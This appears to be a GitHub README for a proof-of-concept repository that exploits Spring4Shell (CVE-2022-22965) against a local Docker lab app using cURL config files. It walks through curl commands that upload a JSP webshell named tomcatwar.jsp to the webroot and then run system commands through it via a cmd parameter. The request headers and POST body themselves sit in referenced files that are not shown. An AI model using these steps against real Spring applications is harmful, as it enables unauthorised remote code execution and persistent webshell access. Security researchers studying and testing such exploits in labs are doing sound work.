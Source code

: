 # Spring4Shell-cURL
Weaponizing cURL configs to exploit Spring4Shell (CVE-2022-22965)


## cURL? Really?
Yup. I hadn't seen this method posted anywhere, so just wanted to document. Most of the heavy lifting had already been done, I just put my own twist on things. 


### Quick Setup

1. Clone the repo. You'll need Docker and cURL.

2. Deploy the Docker container:  

```
docker image build -t retro/stupidrumor . && docker container run -it --publish 8080:8080 retro/stupidrumor
```

3. Use cURL to upload your WAR. The following command will read from the local `requests.txt` file. It contains request configurations we want cURL to use, namely the specific headers we need to prime the application for exploitation. You'll notice the last line `data-binary = "@body.txt"` too, which is the local file containing our POST body:

```
curl --config request.txt http://localhost:8080/stupidRumor_war/index
``` 
   
**Note:** I've included proxy support within the cURL configs, so we can send our requests through a transparent application proxy (Burp). This happens over port 8081, so make sure to adjust accordingly. This is mostly for troubleshooting, but handy to have in your Repeater nonetheless :)
   
4. Once the cURL command is sent, the webshell `tomcatwar.jsp` will be uploaded to the webroot at `stupidRumor_war/`. If you want, you can access the shell in a browser.

5. But we're using cURL, so issue the second request to run your commands:  

```
curl 'http://localhost:8080/stupidRumor_war/tomcatwar.jsp?pwd=j&cmd=whoami' --output -
``` 

## In Action
   
![image](https://user-images.githubusercontent.com/13237617/161151879-3cf326ad-6610-4bfe-992d-1d03279e6da5.png)

   
   
   
   
   
   
   
   
   
   
   
   ----------------
   Refs:  
[https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh](https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh)
